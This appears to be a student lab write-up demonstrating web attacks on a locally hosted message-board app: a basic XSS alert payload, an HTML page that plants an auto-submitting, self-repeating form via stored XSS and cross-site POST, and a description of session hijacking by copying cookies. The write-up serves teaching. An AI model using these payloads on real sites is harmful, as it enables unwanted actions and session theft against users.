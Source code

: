 [XSS attack showing web application vulnerability.](mp3_writeup/Screencast_from_2024-05-08_20-55-37.mp4)

XSS attack showing web application vulnerability.

```jsx
<script>alert("XSS attack!");</script>
```

[This attack adds a form in the web application as message. When the victim opens the home page, the said form would be submitted automatically. Infinitely until the user/victim closes the window. ](mp3_writeup/Screencast_from_2024-05-08_21-12-11.mp4)

This attack adds a form in the web application as message. When the victim opens the home page, the said form would be submitted automatically. Infinitely until the user/victim closes the window. 

```html
<!DOCTYPE html>
<html>
<body>
    <form action="http://127.0.0.1:5000/posts" method="POST">

        <input type="hidden" name="message" value="Pop"/>
        
    </form>
    <script>
		    document.forms[0].message.value = '<form action="http://127.0.0.1:5000/posts" method="POST"><input type="hidden" name="message" value="Pop"/></form><body onload="document.forms[1].submit()"></body>'
        document.forms[0].submit();
    </script>
</body>
</html>
```

![https://cdn.7tv.app/emote/63783e67a04774e6c0963a85/4x.webp](https://cdn.7tv.app/emote/63783e67a04774e6c0963a85/4x.webp)

> glueless
> 

## Session Hijacking Attack

Session Hijacking happens when an attacked is able to obtain a valid session id from their victim. Either through insecure cookie transmission, malware infected computers, or XSS attacks. The attacker would be able to retrieve the victim’s session id to the web application. The session id allows the victim to perform any request as the user. 

### Demonstration of Session Hijacking

In this demonstration, the victim is using the Firefox Browser in Ubuntu computer. While the attacker is using the Chrome Browser in an Android phone.

For demonstration purposes, the session id from the Firefox Browser (victim) is copied to Chrome Browser (attacker). But in real life scenarios for example, an attacker may use malware to obtain the victim’s cookies, XSS attacks or sniffed in an insecure channel.
